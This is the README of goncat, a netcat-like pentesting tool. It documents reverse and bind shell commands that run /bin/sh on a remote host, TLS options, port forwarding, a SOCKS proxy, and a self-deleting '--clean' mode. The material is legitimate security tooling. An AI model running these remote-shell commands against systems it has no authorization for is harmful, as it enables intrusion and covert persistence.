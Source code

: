 # goncat

[![Build and Test](https://github.com/dominicbreuker/goncat/actions/workflows/test.yml/badge.svg)](https://github.com/dominicbreuker/goncat/actions/workflows/test.yml)

goncat is a netcat-like tool you can use to create bind or reverse shells,
but designed to give you a more SSH-like experience.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it has automatic cross-platform PTY support for your convenience.
Third, it can be used for tunneling.
For now it supports local and remote port forwarding as well as barebones SOCKS (TCP CONNECT and UDP ASSOCIATE supported, but no authentication).
Lastly, there are a few other convenience features such as session logging
and automatic cleanup.

Disclaimer: please treat this tool as alpha. It is work an progress and may very well be turned upside down.

## Install

Clone this repository and run `make build` to build binaries for Linux, Windows and MacOS.
Downloads may be available in the [release section](https://github.com/DominicBreuker/goncat/releases)
once this tool is out of alpha and the interface is stable.

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
As with SSH, there is also a master and a slave side of the connection.
The master specifies the parameters for a connection, and the slave operates accordingly.
But master and slave behaviour is not tied to the client and server sides of the connection.
You can turn either side into whatever you want.
There is only one binary combining all features and it works cross-platform.

A few examples to illustrate basic use, which all assume a goncat binary exists on both your own machine and a remote one:

*   Reverse shell
    *   On your machine: `goncat master listen 'tcp://*:12345' --exec /bin/sh` to create a listener on port 12345 that will instruct the other end to execute `/bin/sh`.
    *   Remote: `goncat slave connect tcp://11.22.33.44:12345` to connect the remote side as a slave, which will execute `/bin/sh`.
*   Bind shell
    *   Remote: `goncat slave listen 'tcp://*:12345'` to listen in port 12345 for connections. The listener will do whatever a connecting master asks it to.
    *   On your machine: `goncat master connect tcp://55.66.77.88:12345 --exec /bin/sh` to connect to the remote host and make it execute `/bin/sh`.

Supported protocols include `tcp` (plain TCP connection), `ws` and `wss` (websocket connections), and `udp` (UDP with KCP for reliability).

Advanced features can be enabled with additional flags:

*   Encryption: add `--ssl` on both ends to enable TLS encryption, which applies to all connections regardless of the protocol
*   Authentication: add `--key mypassword` on both ends to ensure no unexpected clients can connect (requires `--ssl`)
*   PTY: as master, add `--pty` to get a fully interactive shell (make sure you also execute a shell with `--exec`)
*   Local TCP port forwarding: as master, add `-L 8443:google.com:443` to open a local port 8443 on the master side, any connection to it will
    be forwarded through the slave to `google.com:443`
*   Remote TCP port forwarding: as master, add `-R 8443:google.com:443` to open a local port 8443 on the slave side, any connection to it will
    be forwarded through the master to `google.com:443`
*   SOCKS TCP/UDP proxy: as master, add `-D 127.0.0.1:1080` to create a SOCKS proxy, through which you can use the slave side (now with UDP support)
*   Logging: as master, add `--log /tmp/log.txt` to log the session to a file
*   Cleanup: as slave, add `--clean` to make goncat delete itself after execution

## A few Details

Encryption and authentication is implemented with (mutual) TLS.
To save you the hassle of generating certificates, goncat does that for you.
If you only enable `--ssl` you get encryption only.
The server side generates a new certificate on each run of `goncat ... listen`.
The client will accept any certificate without validation.
If you additionally enable `--key mypassword` then your password will be used as a seed
for the RNG used for certificate generation.
Both client and server generate and validate the certificates (but ignoring host name of course).

Logging is implemented in a simple way.
We just store all bytes send over the "main channel" to a file.
Main channel refers to that you saw on the screen when using goncat,
ignoring other data such as control messages required to sync master terminal size over to the slave when enabling PTY.
However, bear in mind that the log still looks a bit strange with PTY enabled.
I may find a better way in the future.

Lastly, a few notes on the cleanup feature.
I don't like it when leftover files fly around when you are done with a machine.
It is all too easy to forget deleting them.
Thus you can tell the slave side to `--clean` up after itself.
goncat will then attempt to delete itself before it terminates.
This works well on many Linux machines, where you can just delete your own binary.
On Windows things are a bit tricky.
At the moment, goncat launches a seperate CMD-based job to delete the binary 5 seconds after termination.
